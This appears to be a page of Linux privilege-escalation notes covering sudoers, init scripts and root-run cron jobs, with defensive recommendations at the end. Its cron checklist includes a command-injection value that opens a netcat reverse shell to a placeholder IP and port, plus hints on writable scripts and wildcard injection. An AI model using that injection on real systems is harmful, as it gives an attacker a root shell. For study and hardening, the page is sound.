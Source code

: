 The /etc/sudoers file controls who can run what commands as what users on what machines and can also control special things such as whether you need a password for particular commands.

You can use **PASSWD** and **NOPASSWD** to specify whether the user has to enter a password or not.

### /etc/init.d & /etc/rc.local

THe **/etc/init.d** directory stores scripts which are started during the boot process (or executed when you shutdown or reboot the system).
The **/etc/rc.local** script is executed after all the normal system services, within **/etc/init.d**,  are started

```bash
# Here we restart for example the service called thomas
/etc/init.d/thomas restart
```

### Cron Jobs

Since Cron runs as root when executing /etc/crontab, any commands or scripts that are called by the crontab will also run as root.

```bash
crontab -l # Display all user's jobs in cron / crontab
crontab -e # Edit the current crontab using the  editor specified by the VISUAL or EDITOR environment variables.
```

Interesting cron files:

- **/etc/crontab**: System crontab. Cron will run as the **root** user when executing scripts and commands in this file.
- **/etc/anacrontab**: Cron will run as the **root** user when executing scripts and commands in this file.
*Nowadays the file is empty by default.
Originally it was usually used to run daily, weekly, monthly jobs. By default these jobs are now run through anacron which reads /etc/anacrontab configuration file.*
- **/var/spool/cron**: Directory that contains user crontables created by the crontab command.
- **/etc/cron.d:**: Directory that contains system cronjobs stored for different users.

Cron examines all stored crontabs and checks each job to see if it needs to be run in the current minute.

1. Search if there are script executed that you can write
2. Search for wildcard injection vulnerability such as tar, chown and chmod (cc Wildcard)
3. Search for execution within the script that use a folder or file that can be changed to '; nc -c bash IP PORT

:white_check_mark: How to protect against or detect that technique:

- *Architecture*: Ensure permissions on /etc/crontab, /etc/cron.hourly, /etc/cron.daily, /etc/cron.monthly and /etc/cron.d are configured
- *Architecture*: Ensure at/cron is restricted to authorized user
- *Architecture*: Ensure that scripts that may be run by cron are only accessible by privileges users
- *Active Defense*: Detect modifications made to cron jobs

